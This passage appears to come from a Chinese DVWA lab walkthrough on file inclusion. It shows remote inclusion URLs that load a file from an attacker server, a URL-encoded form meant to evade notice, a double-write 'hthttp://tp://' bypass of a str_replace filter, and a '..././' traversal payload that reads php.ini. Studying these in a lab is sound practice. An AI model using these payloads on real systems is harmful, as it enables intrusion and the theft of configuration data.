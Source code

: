 为了增加隐蔽性，可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到，Medium 级别的代码增加了 str_replace 函数，对 page 参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。

**相关函数**
- **str_replace()**
	str_replace() 函数以其他字符替换字符串中的一些字符(区分大小写)。

	该函数必须遵循下列规则：
	- 如果搜索的字符串是数组，那么它将返回数组。
	- 如果搜索的字符串是数组，那么它将对数组中的每个元素进行查找和替换。
	- 如果同时需要对数组进行查找和替换，并且需要执行替换的元素少于查找到的元素的数量，那么多余元素将用空字符串进行替换
	- 如果查找的是数组，而替换的是字符串，那么替代字符串将对所有查找到的值起作用。

**漏洞利用**

使用 str_replace 函数是极其不安全的，因为可以使用双写绕过替换规则。

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时，str_replace 函数会将 http:// 删除，于是 `page=http://<IP地址!!!>/phpinfo.txt`，成功执行远程命令。

同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功

![image](../../../assets/img/安全/实验/dvwa/dvwa21.png)
